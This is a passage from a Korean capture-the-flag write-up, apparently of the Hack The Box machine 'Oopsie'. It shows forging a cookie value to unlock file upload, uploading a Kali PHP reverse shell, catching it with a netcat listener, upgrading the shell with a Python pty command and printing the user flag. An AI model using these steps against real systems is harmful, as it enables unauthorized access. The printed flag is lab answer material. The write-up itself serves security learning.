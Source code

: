 그러면 super admin의 계정을 찾으면 되니까 Accounts 탭에서 `id`변수에 값 때려박아서 계정 찾으면 된다.

결과:

![image-20200815192744710](C:\Users\a\AppData\Roaming\Typora\typora-user-images\image-20200815192744710.png)



쿠키의 `user`값을 86575로 바꾸면 업로드가 가능하다. 그럼 이제 리버스 쉘을 업로드 해야 하는데,

Kali의 `/usr/share/webshells/php`경로에 가면 리버스 쉘이 있다. 거기서 IP만 내 것으로 바꿔주면 된다.

그 거 업로드 해주고 지정된 포트에서 listen 하고 있다가, 파일 업로드된 경로 찾아서 실행시켜주면 쉘이 따진다.

근데 경로가 안 나와 있어서 대충 `/uploads/filename.php` 했는데 맞았다. 개꿀. 못 찾았으면 `dirb`나 `dirsearch` 썼을 듯.

```bash
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.28: inverse host lookup failed: Unknown host
connect to [10.10.14.33] from (UNKNOWN) [10.10.10.28] 44254
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:35:40 up 12:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

현재 접속한 계정의 쉘 정보를 확인해보자:

```bash
$ grep www-data /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

`/sbin/nologin` 쉘은 로그인이 불가능하다. bash쉘로 바꿔줘야 다른 유저로 로그인할 수 있다:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

``` bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@oopsie:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@oopsie:/$ tty             
tty
/dev/pts/1
```

```bash
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```
